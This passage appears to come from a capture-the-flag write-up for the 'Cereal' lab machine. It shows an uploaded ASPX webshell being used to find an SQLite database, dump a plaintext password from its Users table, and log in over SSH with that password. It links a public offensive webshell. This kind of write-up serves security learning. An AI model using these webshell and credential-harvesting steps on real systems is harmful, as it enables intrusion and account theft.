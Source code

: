 ### Password

Originally I used the webshell to get a reverse shell. But on more
enumeration, that proved unnecessary.

In the web directory `C:\inetpub\cereal`, there’s a `db` directory that
contains a single file:

![image-20210427203554690](https://0xdfimages.gitlab.io/img/image-20210427203554690.png)

Calling `type` on it dumps it out, much of which is binary garbage, but also
the rest of which gives some clues:

![image-20210427203807825](https://0xdfimages.gitlab.io/img/image-20210427203807825.png)

The DB is SQLite, and there are a handful of tables there. I can see the XSS
cereal request in the text. Another table is the `Users` table, which includes
username and password fields.

At the very bottom, there’s the string `sonny`, and then
`mutual.madden.manner38974`.

To see this more clearly, I uploaded a [better ASPX
webshell](https://raw.githubusercontent.com/xl7dev/WebShell/master/Aspx/ASPX%20Shell.aspx):

![image-20210428070756319](https://0xdfimages.gitlab.io/img/image-20210428070756319.png)

I’ll right-click on `cereal.db` and Save Link As… the file so I have it
locally to investigate:

    
    
    oxdf@parrot$ file cereal.db 
    cereal.db: SQLite 3.x database, last written using SQLite version 3028000
    

Opening it, I can dump the `Users` table and get the password:

    
    
    oxdf@parrot$ sqlite3 cereal.db
    SQLite version 3.34.1 2021-01-20 14:10:07
    Enter ".help" for usage hints.
    sqlite> .tables
    Requests               Users                  __EFMigrationsHistory
    sqlite> select * from Users;
    1|sonny|mutual.madden.manner38974|
    

### SSH

Those creds work to auth as sonny over SSH:

    
    
    oxdf@parrot$ sshpass -p 'mutual.madden.manner38974' ssh sonny@10.10.10.217
    Microsoft Windows [Version 10.0.17763.1817]                                                              
    (c) 2018 Microsoft Corporation. All rights reserved. 
                                                        